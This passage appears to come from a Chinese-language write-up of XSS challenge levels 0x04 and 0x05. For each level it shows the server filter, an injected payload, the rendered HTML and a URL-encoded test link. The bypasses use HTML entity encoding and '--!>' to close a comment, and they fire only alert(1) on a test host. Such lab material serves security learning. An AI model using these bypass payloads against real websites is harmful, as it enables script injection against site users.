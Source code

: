 ## 0x04

- server 源码

反引号也被过滤，html编码绕过

```php
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

- 插入代码

```html
<img src=# onerror=alert&#x28;1&#x29;> 
```

- 网页代码

```html
<img src=# onerror=alert&#x28;1&#x29;>
```

- URL

```url
http://xss.test/?input=%3Cimg%20src%3D%23%20onerror%3Dalert%26%23x28%3B1%26%23x29%3B%3E%20
```

## 0x05

- server 源码

过滤 --> 防止标签闭合，--!> 同样可以闭合标签

```php
function render (input) {
  input = input.replace(/-->/g, '😂')
  return '<!-- ' + input + ' -->'
}
```

- 插入代码

```html
--!><img src=# onerror=alert&#x28;1&#x29;> 
```

- 网页代码

```html
<!-- --!><img src=# onerror=alert&#x28;1&#x29;>  -->
```

- URL

```url
http://xss.test/?input=--!%3E%3Cimg%20src%3D%23%20onerror%3Dalert%26%23x28%3B1%26%23x29%3B%3E%20
```
